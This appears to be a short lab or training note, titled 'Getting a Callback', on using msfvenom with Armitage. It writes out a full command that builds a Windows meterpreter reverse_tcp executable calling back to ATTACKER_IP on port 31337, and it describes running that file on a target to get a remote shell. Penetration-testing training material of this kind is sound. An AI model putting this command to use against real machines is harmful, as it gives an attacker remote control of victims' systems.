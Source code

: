 ```yaml
---
title: 3. Getting a Callback
updated: 2023-01-19T13:18:24.0000000+04:00
created: 2023-01-19T10:14:11.0000000+04:00
---
```


AM
After setting up a listener, you can generate a standard windows/meterpreter/reverse_tcp reverse shell using MSFVenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server.
**<u>Using MSFVenom</u>**

| **Command** | msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe |
|-------------|-----------------------------------------------------------------------------------------------|

Then.

After generating the windows/meterpreter/reverse_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

![image1](image1-210.png)

